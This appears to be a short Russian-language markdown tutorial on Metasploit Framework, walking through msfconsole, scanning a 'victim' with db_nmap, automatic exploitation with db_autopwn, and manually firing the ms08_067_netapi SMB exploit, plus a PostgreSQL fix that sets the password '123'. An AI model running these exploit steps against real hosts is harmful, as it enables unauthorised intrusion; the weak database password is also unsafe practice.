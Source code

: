# Metasploit instalation

> For docker: https://wiki-docs.ru/home/sec/metasploit-docker
## После установки:

Теперь самый простой вариант использования Metasploit Framework. Запустим консоль.

`msfconsole`

Теперь добавим нашу жертву в базу данных и информацию про его порты.

`db_nmap -sT -sV 192.168.1.1`

Отправим все на автоматический взлом =). Данная команда стала неактуальной в последних версиях.

`db_autopwn -p -t -e`

Если в конце процесса появятся сессии, значит взлом удался. Выбираем сессию и в ходим в нее.

`session -i 1`

Альтернатив db_autopwn нет. Использовать эксплоиты можно в ручную. Например так:

#Загружаем нужный нам эксплоит

`use exploit/windows/smb/ms08_067_netapi`

#Смотрим опции

`show options`

#Заполняем необходимые поля например IP адрес жертвы

`set RHOST 192.168.84.58`

#Проверяем актуален ли эксплоит для жертвы

`check`

#Ломаем

`exploit`

Далее можно заняться многим, все зависит от ваших полномочий в системе. Для просмотра команд доступных Вам наберите:

`help`

В конце для выхода обратно из сессии и удаления данного хоста из базы данных проделываем следующую операцию:

`exit`
`hosts -d 192.168.1.1`

Иногда Базы данных отваливаются я решил данный вопрос вот так:

sudo apt-get install postgresql
sudo apt-get install libpgsql-ruby
sudo su postgres
createuser root -P
Enter password for new role: 123
Enter it again:123
Shall the new role be a
superuser? (y/n) n
Shall the new role be allowed to
create databases? (y/n) n
Shall the new role be allowed to
create more new roles? (y/n) n
createdb --owner=root metasploit
exit
msfconsole
db_connect root:123@127.0.0.1/metasploit
